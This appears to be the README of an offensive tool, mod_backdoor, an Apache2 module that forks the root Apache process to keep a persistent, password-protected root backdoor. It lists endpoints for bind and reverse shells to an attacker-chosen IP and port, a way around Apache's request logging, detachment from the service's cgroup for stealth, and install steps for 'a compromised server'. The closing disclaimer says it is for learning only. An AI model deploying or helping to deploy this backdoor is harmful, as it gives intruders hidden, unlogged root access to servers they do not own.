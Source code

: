 # Apache2 mod_backdoor

mod_backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the main Apache2 process just after it has loaded its config.
Since it's forked before the root user transfers the process to www-data, you can execute command as root.<br/>
As Apache2 loads its configuration only when you (re)start it, the challenge was to never let die this 
forked root apache2 process, to let us interact as root with the compromised system.

# Features

* Bind TTY Shell
* Reverse Shell (TTY , Native, PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns a new forked independent root process attached to PID 1
* Socks5 proxy
* Password Protection through cookie headers
* Ping module to know if its still active

There is also a hook to bypass the Apache2 logging mechanism. Each request to the backdoor module **are not logged** by Apache2.

# Demo
[![asciicast](https://asciinema.org/a/mOzJ74TmXJ5IZ5u48rDFx7MqQ.svg)](https://asciinema.org/a/mOzJ74TmXJ5IZ5u48rDFx7MqQ)

# Description

* The password is send through Cookie headers: `Cookie: password=backdoor`. It's defined with `#define` 
in the beginning of mod_backdoor.c, so you could easily edit it.<br/>

* Each following requests must contain this password to interact with the module.<br/>
* Each request containing this cookie **will not be logged by Apache** if the module is running. <br/>

* Each shell spawns **attached to PID** 1 and **is removed from apache2 cgroup**.
 It means it's possible to **restart/stop apache2.service from a spawned shell** (not true for 
 TTY shells because I need an apache2 process to do the bidirectional communication between socket
 and pty). It also improves stealth, shells are no longer related to apache2.service. <br/>

### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` binds a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
`forkpty()` is used to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.<br/>
Shells could be easily upgraded with the famous trick:<br/>
 `CTRL-Z --> stty raw -echo --> fg --> reset`

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>`. <br/>
`<PROG>` must be one of these: <br/>

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Socks5 proxy
TODO

### Ping module
The endpoint `http[s]://<TARGET>/ping` tells you if the module is currently working.

# Notes
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/fgssfgss/socks_proxy <br/>
<br/>
Special thanks to [@Ug_0Security](https://twitter.com/Ug_0Security)

# Builds
For development :<br/>
* `apxs -i -a -c mod_backdoor.c -Wl,-lutil` <br/>
 -Wl,-lutil used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it for the desired arch and retrieve the mod_backdoor.so or<br/>
get it from the `build/` folder (compiled for: Apache/2.4.41 (Debian)).
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Copy backdoor.load to `/etc/apache2/mod-available/backdoor.load`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))

## Disclaimer
This project was created only for learning purpose.<br/>
Usage of mod_backdoor for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
